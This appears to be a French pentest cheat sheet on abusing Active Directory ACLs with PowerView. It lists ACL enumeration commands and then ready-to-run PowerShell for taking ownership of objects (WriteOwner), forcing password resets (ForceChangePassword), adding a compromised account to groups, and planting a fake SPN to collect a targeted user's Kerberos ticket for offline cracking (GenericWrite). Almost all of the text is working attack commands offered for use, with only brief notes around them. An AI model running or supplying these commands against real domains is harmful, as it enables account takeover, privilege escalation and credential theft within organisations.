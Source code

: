 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Enumération des ACLs
```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)
```powershell
# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

### GenericWrite 
Permet :
- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit

```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members compromised
# Verification
Get-DomainGroupMember -Identity "Help Desk Level 1" | ?{$_.MemberName -eq 'wley'}

#########################################################
# Create fake SPN for targetted user 'adunn' and dump TGS
$targetedUser = 'adunn'
# SPN Creation
Set-DomainObject -Credential $cred_wley -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# TGS collect
Get-DomainUser $targetedUser | Get-DomainSPNTicket -Credential $cred_wley | fl
# Cleanup
Set-DomainObject -Credential $Cred -Identity $targetedUser -Clear serviceprincipalname



```